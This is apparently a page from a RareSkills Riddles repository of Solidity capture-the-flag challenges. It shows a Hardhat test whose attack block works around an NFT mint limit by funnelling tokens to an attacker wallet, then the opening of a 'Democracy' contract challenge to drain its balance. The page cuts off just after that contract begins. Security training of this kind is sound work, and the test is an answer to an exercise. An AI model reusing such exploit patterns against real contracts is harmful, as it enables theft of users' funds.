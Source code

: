 ```javascript
        const victimContract = await VictimFactory.deploy();

        return { victimContract, attackerWallet };
    }

    describe("exploit", async function () {
        let victimContract, attackerWallet;
        before(async function () {
            ({ victimContract, attackerWallet } = await loadFixture(setup));
        });

        it("conduct your attack here", async function () {
            const [owner, attackerWallet, user1, user2, user3] = await ethers.getSigners();
            victimContract.connect(owner).mint();
            victimContract.connect(owner).transferFrom(owner.address, attackerWallet.address, 1);
            victimContract.connect(user1).mint();
            victimContract.connect(user1).transferFrom(user1.address, attackerWallet.address, 2);
            victimContract.connect(user2).mint();
            victimContract.connect(user2).transferFrom(user2.address, attackerWallet.address, 3);
            victimContract.connect(user3).mint();
            victimContract.connect(user3).transferFrom(user3.address, attackerWallet.address, 4);
            victimContract.connect(attackerWallet).mint();
        });

        after(async function () {
            expect(await victimContract.balanceOf(attackerWallet.address)).to.be.equal(5);
            expect(await ethers.provider.getTransactionCount(attackerWallet.address)).to.equal(
                1,
                "must exploit one transaction"
            );
        });
    });
});
```

## RareSkills Riddles - Democracy

### Contracts

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.15;

import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

/**
 * Democracy NFT: One hodler, one vote!
 *
 * You are the current challenger candidate in the latest "Democracy NFT"
 * election. The project is committed to perfecting fair and democratic
 * on-chain voting in the NFT space. It even pays each hodler to vote!
 *
 * Each NFT hodler can vote for their preferred nominee and the winner will
 * become the new contract owner. The only problem is that the current
 * incumbent has rigged the outcome to ensure that once your vote has been
 * cast, the election will end with them as the winner...
 *
 * Your goal is to drain the contract's entire balance.
 */
contract Democracy is Ownable, ERC721 {
    uint256 public PRICE = 1_000 ether;
```